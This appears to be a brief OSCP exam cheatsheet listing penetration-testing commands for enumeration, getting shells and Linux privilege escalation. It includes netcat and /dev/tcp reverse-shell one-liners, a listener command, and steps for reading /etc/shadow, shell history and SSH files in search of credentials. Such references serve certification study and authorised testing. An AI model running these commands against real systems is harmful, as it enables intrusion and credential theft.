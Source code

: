 # OSCP Cheatsheet

## Enumeration Tools

- Nmap
  ``` 
  nmap -sC -sV <ip>
  ```
- Gobuster
  ``` 
  gobuster dir -t 50 -x php,html -f -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u <ip>
  ```
- enum4linux 
  ```
  enum4linux -a <ip>
  ```

## Shells

- Ways to get shell
  ```
  nc <ip>:<port> -e /bin/bash
  bash -i &>/dev/tcp/<ip>/<port> <&1
  ```
- Catch Shell
  ```
  nc -lvnp <port>
  ```

## Privilege Esclation

- Service Exploit
  ```
  service --status-all
  pstree
  ```
- File permissions
  ```
  /etc/passwd
  /etc/shadow
  /etc/crontab
  /etc/cron.d/*
  ```
- Sudo 
  ```
  sudo -l 
  > then use https://gtfobins.github.io
  ```
- Cron
  ```
  cat /etc/crontab
  > Look for jobs and files that are being ran
  > Also look for the PATH variable to see if there is any realtive directory files and a path directory you can write to
  ```
- SUID 
  ```
  find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
  > Look for know exploits, Shared Object Injection, and /usr/bin/systemctl
  ```
- Command History 
  ```
  cat ~/.*history | less
  ```
- Config files
  ```
  ls -la /home/<user>/
  > Look for .ssh and other config-type filese that could contain password or hashes
  ```
- Kernel Exploits
  ```
  uname -a
  ```

## Other

- Other People Lists
  ```
  https://medium.com/oscp-cheatsheet/oscp-cheatsheet-6c80b9fa8d7e
  ```
